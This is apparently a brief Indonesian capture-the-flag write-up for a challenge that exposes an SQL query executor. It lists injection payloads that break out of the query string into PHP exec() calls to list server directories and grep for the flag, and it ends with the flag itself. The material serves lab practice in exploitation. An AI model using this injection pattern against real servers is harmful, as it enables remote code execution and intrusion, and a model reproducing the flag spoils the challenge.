 Mimin sediakan buat kalian untuk eksekusi Query SQL nihh, silahkan di coba :D

Link : http://103.157.96.13:5552/

Payload
```
/var/www/html/index.php
select 1";echo exec('ls -la /var/www/html/');//
select 1";echo exec('ls -la /var/www/');//
select 1";echo exec('ls -la /var');//
select 1";echo exec("grep -r 'CTFR{' /var/www/");//
```

Flag
```
CTFR{fr0m_sql1_1nt0_r3m0t3_c0d3_3x3cut10n}
```